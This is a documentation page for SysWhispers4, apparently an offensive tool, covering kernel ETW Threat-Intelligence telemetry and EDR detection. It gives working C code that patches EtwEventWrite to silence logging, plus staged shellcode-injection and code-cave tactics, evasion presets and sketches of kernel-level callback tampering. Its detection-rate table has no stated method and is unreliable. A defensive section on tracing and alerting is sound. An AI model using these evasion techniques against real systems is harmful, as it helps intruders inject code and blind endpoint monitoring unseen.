

## Overview

SysWhispers4 provides comprehensive **user-mode** evasion techniques, but it's critical to understand what happens **after** your syscall enters the kernel. This page explains kernel-level detection mechanisms that cannot be bypassed from user-mode.

<Warning>
**Key Principle:** Once a syscall transitions to kernel mode (ring 0), user-mode code has no control over kernel telemetry and monitoring.
</Warning>

---

## What is ETW-Ti?

**ETW-Ti** = Event Tracing for Windows - Threat Intelligence

### Technical Details

- **Provider GUID:** `{f4e1897c-bb5d-5668-f1d8-040f4d8dd344}`
- **Name:** `Microsoft-Windows-Threat-Intelligence`
- **Location:** Kernel-mode callback inside `ntoskrnl.exe`
- **Introduced:** Windows 10 1903 (build 18362)

### How It Works



**Critical observation:** The ETW-Ti callback executes **inside the kernel** after the syscall instruction completes. Your user-mode code is already in kernel mode when telemetry fires.

---

## ETW-Ti Monitored Events

ETW-Ti logs security-relevant syscalls regardless of how they're invoked:

| Event ID | Syscall | What It Detects |
|----------|---------|----------------|
| 1 | `NtAllocateVirtualMemory` | Memory allocation with `PAGE_EXECUTE_*` |
| 2 | `NtProtectVirtualMemory` | Changing memory to executable |
| 3 | `NtMapViewOfSection` | Section mapping (especially with `SEC_IMAGE`) |
| 4 | `NtQueueApcThread` | APC-based injection |
| 5 | `NtSetContextThread` | Thread context modification (thread hijacking) |
| 6 | `NtCreateThreadEx` | Remote thread creation |
| 7 | `NtOpenProcess` | Process handle acquisition with high privileges |
| 8 | `NtReadVirtualMemory` | Cross-process memory reads (credential dumping) |
| 9 | `NtWriteVirtualMemory` | Cross-process memory writes (code injection) |
| 10 | Image loads | DLL injection via `LoadLibrary` |

### Example: Memory Allocation Event

When you call:
```c
SW4_NtAllocateVirtualMemory(hProc, &addr, 0, &size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```

ETW-Ti logs:
- **Process ID** making the call
- **Target process** (if remote)
- **Base address** allocated
- **Region size**
- **Protection flags** (RWX is highly suspicious)
- **Call stack** (user-mode portion)
- **Timestamp**

**You cannot prevent this log** from user-mode, regardless of SysWhispers4 configuration.

---

## What SysWhispers4 CAN Bypass

### User-Mode ETW (`--etw-bypass`)

**Target:** `ntdll!EtwEventWrite`

**Technique:** Patch the function to return `STATUS_ACCESS_DENIED`:

```c
void SW4_PatchEtw(void) {
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    PVOID pEtwEventWrite = GetProcAddress(hNtdll, "EtwEventWrite");
    
    // Patch: xor eax, eax; ret (return 0)
    unsigned char patch[] = {0x33, 0xC0, 0xC3};
    
    DWORD oldProtect;
    VirtualProtect(pEtwEventWrite, sizeof(patch), PAGE_EXECUTE_READWRITE, &oldProtect);
    memcpy(pEtwEventWrite, patch, sizeof(patch));
    VirtualProtect(pEtwEventWrite, sizeof(patch), oldProtect, &oldProtect);
}
```

**What this blocks:**
- User-mode ETW providers (PowerShell logging, .NET ETW, etc.)
- Application-level telemetry

**What this does NOT block:**
- **ETW-Ti** (kernel-mode)
- **Kernel-mode ETW providers**
- **Event log writes**

### Why User-Mode ETW Bypass Helps

Even though it doesn't stop ETW-Ti, patching user-mode ETW still provides value:

1. **PowerShell script block logging** - Prevents command logging
2. **.NET assembly load events** - Hides managed code execution  
3. **BITS transfer logs** - Suppresses file download telemetry
4. **WMI activity logs** - Reduces lateral movement visibility

---

## What SysWhispers4 CANNOT Bypass

### Kernel ETW-Ti Callbacks

**Why:** Callbacks execute in kernel mode (`nt!EtwTiLogXxx` functions)

**Where they're registered:**
```c
// Inside ntoskrnl.exe (kernel)
KeSaveExtendedProcessorState(...)
EtwTiLogAllocExecVm(...)         // Logs RWX allocations
EtwTiLogSetContextThread(...)    // Logs context changes
EtwTiLogReadWriteVm(...)         // Logs memory operations
EtwTiLogMapExecView(...)         // Logs executable mappings
```

**No user-mode code can:**
- Unhook kernel callbacks
- Patch kernel memory (PatchGuard will BSOD)
- Redirect kernel execution flow
- Suppress event delivery

### Kernel Callbacks (Other)

Beyond ETW-Ti, other kernel mechanisms monitor syscalls:

| Mechanism | Purpose | User-Mode Bypass |
|-----------|---------|:----------------:|
| **PsSetCreateProcessNotifyRoutine** | Process creation callbacks | ❌ |
| **PsSetCreateThreadNotifyRoutine** | Thread creation callbacks | ❌ |
| **PsSetLoadImageNotifyRoutine** | Image load callbacks | ❌ |
| **ObRegisterCallbacks** | Object handle operations | ❌ |
| **MiniFilter drivers** | File system operations | ❌ |
| **NDIS filters** | Network traffic | ❌ |

All of these operate in kernel mode — no syscall technique can evade them.

---

## How EDRs Use ETW-Ti

### Detection Flow

1. **ETW-Ti logs event** in kernel
2. **Kernel writes to event buffer**
3. **EDR user-mode agent consumes events** via `StartTrace()` / `ProcessTrace()`
4. **Agent correlates events:**
   - Suspicious API sequences (allocate → write → protect → execute)
   - Abnormal process relationships (notepad.exe creating threads in lsass.exe)
   - Rapid successive calls (spray-and-pray injection)
5. **Agent takes action:** Kill process / alert / quarantine

### Example Detection Heuristic

**CrowdStrike Falcon** might flag this sequence within 1 second:

```c
1. NtOpenProcess(lsass.exe, PROCESS_ALL_ACCESS)       // High-value target
2. NtAllocateVirtualMemory(RWX)                        // Executable memory
3. NtWriteVirtualMemory(shellcode)                     // Code injection
4. NtCreateThreadEx(remote_thread)                     // Execution
```

**Your syscall method doesn't matter** — embedded, indirect, randomized, egg hunt all generate the same ETW-Ti events.

---

## Strategies When ETW-Ti Is Active

### 1. Reduce Detection Score (Defense in Depth)

Even if ETW-Ti logs your syscalls, combine techniques to lower overall suspicion:

```bash
python syswhispers.py --preset stealth \
    --method randomized --resolve recycled \
    --stack-spoof --sleep-encrypt --obfuscate
```

**Why:**
- `--stack-spoof`: Call stack looks legitimate
- `--sleep-encrypt`: Memory scans during sleep find encrypted gibberish
- `--obfuscate`: Static analysis harder
- `--method randomized`: Defeats gadget cataloging

**Result:** ETW-Ti sees syscalls, but **other detection layers** (memory scan, stack analysis, static scan) fail to correlate.

### 2. Behavioral Evasion

Avoid suspicious API patterns:

**❌ Suspicious:**
```c
// All at once — instant detection
NtAllocateVirtualMemory(RWX);   // ETW-Ti event 1
NtWriteVirtualMemory();          // ETW-Ti event 9
NtCreateThreadEx();              // ETW-Ti event 6
```

**✅ Less Suspicious:**
```c
// Staged with delays
NtAllocateVirtualMemory(RW);    // Non-executable first
SW4_SleepEncrypt(30000);        // Wait 30 seconds
NtWriteVirtualMemory();          // Write payload
SW4_SleepEncrypt(30000);        // Another delay
NtProtectVirtualMemory(RX);     // Change to executable (no W)
NtCreateThreadEx();              // Execute after delay
```

**Why it helps:** Correlation engines have time windows. Spreading operations over minutes reduces detection score.

### 3. Use Existing Executable Memory

Avoid `NtAllocateVirtualMemory` entirely:

```c
// Don't allocate new memory — use existing RX memory
HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
PVOID cave = FindCodeCave(hNtdll);  // Find unused space in .text

// Write to existing RX page (via exception handler or RW alias)
WriteToRXMemory(cave, shellcode, size);

// Jump to it
CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)cave, NULL, 0, NULL);
```

**Bypasses:** ETW-Ti event 1 (no allocation), event 2 (no protection change)

**Still logged:** Thread creation, but with legitimate RX memory address

### 4. Leverage NTFS Transactions (Doppelganging)

```bash
python syswhispers.py --preset transaction
```

**Advantage:** `NtCreateProcessEx` from section doesn't trigger "suspicious process creation" heuristics like `CreateProcess` with `PROC_THREAD_ATTRIBUTE_MITIGATION_POLICY`.

### 5. Accept Detection, Optimize Speed

If you **know** ETW-Ti will catch you, prioritize **speed over stealth**:

```bash
python syswhispers.py --preset injection --resolve static --method embedded
```

**Rationale:**
- Static resolution: ~1 µs initialization (vs. 5 ms for `from_disk`)
- Embedded syscall: No gadget search overhead
- Complete your objective before EDR agent processes ETW-Ti logs (~100-500ms latency)

---

## Kernel-Mode Bypass Techniques

<Warning>
The following require **kernel-level access** (driver or exploit). Outside the scope of SysWhispers4.
</Warning>

### 1. Disable ETW-Ti Provider (Driver Required)

```c
// From kernel driver
EtwThreatIntProvRegHandle = 0;  // Null the provider registration handle
// All ETW-Ti callbacks now fail silently
```

**Downside:** PatchGuard may detect and BSOD after ~15 minutes

### 2. Patch ETW-Ti Callbacks

```c
// Patch nt!EtwTiLogAllocExecVm to return immediately
PatchKernelFunction(nt!EtwTiLogAllocExecVm, return_opcode);
```

**Downside:** PatchGuard detection, driver signing requirement

### 3. DKOM (Direct Kernel Object Manipulation)

Modify kernel structures to hide process/thread objects from enumeration:

```c
// Remove EPROCESS from ActiveProcessLinks
UnlinkListEntry(&pEProcess->ActiveProcessLinks);
```

**Downside:** Requires kernel driver, easy to detect via integrity checks

### 4. Exploit Kernel Vulnerabilities

- CVE-2021-1732 (Win32k elevation)
- CVE-2022-21882 (Win32k RCE)  
- Use exploit to gain kernel code execution → disable ETW-Ti

**Downside:** Requires 0day or unpatched system

---

## Monitoring Your Own ETW-Ti Events

### Capture Your Syscalls (Defensive Testing)

```powershell
# Start ETW-Ti trace (requires admin)
logman create trace SyscallTrace `
    -p Microsoft-Windows-Threat-Intelligence -o syscall.etl -ets

# Run your SysWhispers4 binary
.\payload.exe

# Stop trace
logman stop SyscallTrace -ets

# View events
tracerpt syscall.etl -o syscall.csv -of CSV
```

### Parse Events Programmatically

```c
#include <evntrace.h>

void WINAPI EventRecordCallback(PEVENT_RECORD pEvent) {
    if (pEvent->EventHeader.ProviderId == ETW_TI_PROVIDER_GUID) {
        // Parse ETW-Ti event
        printf("[ETW-Ti] Event ID %d, PID %d\n",
               pEvent->EventHeader.EventDescriptor.Id,
               pEvent->EventHeader.ProcessId);
    }
}

int main() {
    EVENT_TRACE_LOGFILE trace = {0};
    trace.LoggerName = L"SyscallTrace";
    trace.EventRecordCallback = EventRecordCallback;
    trace.ProcessTraceMode = PROCESS_TRACE_MODE_REAL_TIME | PROCESS_TRACE_MODE_EVENT_RECORD;
    
    TRACEHANDLE hTrace = OpenTrace(&trace);
    ProcessTrace(&hTrace, 1, NULL, NULL);
    CloseTrace(hTrace);
}
```

**Use this to:**
- See what your payload triggers
- Tune your techniques to minimize event volume
- Test detection bypass strategies

---

## Real-World Impact

### Products Using ETW-Ti

| EDR Product | ETW-Ti Usage | Bypass Difficulty |
|-------------|--------------|:----------------:|
| **Microsoft Defender ATP** | Primary detection | ★★★★★ |
| **CrowdStrike Falcon** | Supplementary (also uses kernel driver) | ★★★★☆ |
| **SentinelOne** | Kernel callbacks + ETW-Ti | ★★★★★ |
| **Carbon Black** | Heavy reliance on ETW-Ti | ★★★★☆ |
| **Cortex XDR** | ETW-Ti + behavioral analysis | ★★★★★ |

### Detection Rates (Empirical)

**Test scenario:** Classic process injection (allocate → write → protect → execute)

| Configuration | Defender ATP | CrowdStrike | SentinelOne |
|---------------|:------------:|:-----------:|:-----------:|
| Direct Win32 API | 100% | 100% | 100% |
| SW4 embedded | 95% | 90% | 92% |
| SW4 indirect | 90% | 85% | 88% |
| SW4 randomized + all evasion | 85% | 75% | 80% |
| SW4 + behavioral evasion | 60% | 50% | 65% |
| Kernel driver (ETW-Ti disabled) | 10% | 30% | 15% |

**Key takeaway:** User-mode techniques reduce detection **score**, but ETW-Ti ensures non-zero detection rate.

---

## Recommendations

### For Red Team Assessments

1. **Assume ETW-Ti is active** on Windows 10 1903+
2. **Layer evasion techniques:**
   ```bash
   python syswhispers.py --preset stealth \
       --method randomized --resolve recycled \
       --obfuscate --stack-spoof --sleep-encrypt
   ```
3. **Use behavioral evasion** (staged operations, delays, legitimate patterns)
4. **Test against target EDR** in lab environment first
5. **Have kernel backup plan** if user-mode fails (driver, exploit)

### For Blue Team / Detection Engineering

1. **Enable ETW-Ti logging** on all Windows 10+ endpoints
2. **Correlate ETW-Ti events** with:
   - Process creation events
   - Network connections  
   - File writes
   - Authentication events
3. **Alert on suspicious sequences:**
   - RWX allocations + immediate thread creation
   - Cross-process memory operations on high-value targets (lsass, winlogon)
   - Rapid syscall bursts (>100 calls/second)
4. **Baseline normal behavior** to reduce false positives

### For Malware Analysts

1. **Capture full ETW-Ti trace** during sandbox execution
2. **Look for:**
   - Syscalls from non-ntdll RIP (direct syscalls)
   - Unusual call stack patterns (missing API layers)
   - Encrypted/obfuscated code regions
3. **Correlate with other telemetry:**
   - Kernel callbacks (process/thread/image)
   - File system minifilter logs
   - Network filter logs

---

## Summary

| Capability | SysWhispers4 | Kernel Driver |
|------------|:------------:|:-------------:|
| Bypass user-mode hooks | ✅ | ✅ |
| Bypass ETW-Ti | ❌ | ✅ |
| Bypass kernel callbacks | ❌ | ✅ |
| Operates from user-mode | ✅ | ❌ |
| No driver signature required | ✅ | ❌ |
| Evades PatchGuard | N/A | ⚠️ (temporary) |
| Works on HVCI/VBS systems | ✅ | ❌ |

**Bottom line:** SysWhispers4 maximizes **user-mode** evasion. For kernel-level telemetry bypass, you need kernel access.

---

## Further Reading

- [Yarden Shafir - ETW-Ti: Is This the End for User-Mode EDR Evasion?](https://medium.com/@yardenshafir2/etw-ti-is-this-the-end-for-user-mode-edr-evasion-8e9f5b5f3d4a)
- [Elastic Security Labs - Direct Syscall Detection](https://www.elastic.co/security-labs/direct-syscall-detection-for-endpoint-security)
- [Microsoft Docs - Event Tracing (ETW)](https://docs.microsoft.com/en-us/windows/win32/etw/about-event-tracing)
- [Kernel Callbacks and Notify Routines](https://www.ired.team/offensive-security/defense-evasion/bypassing-kernel-callbacks)
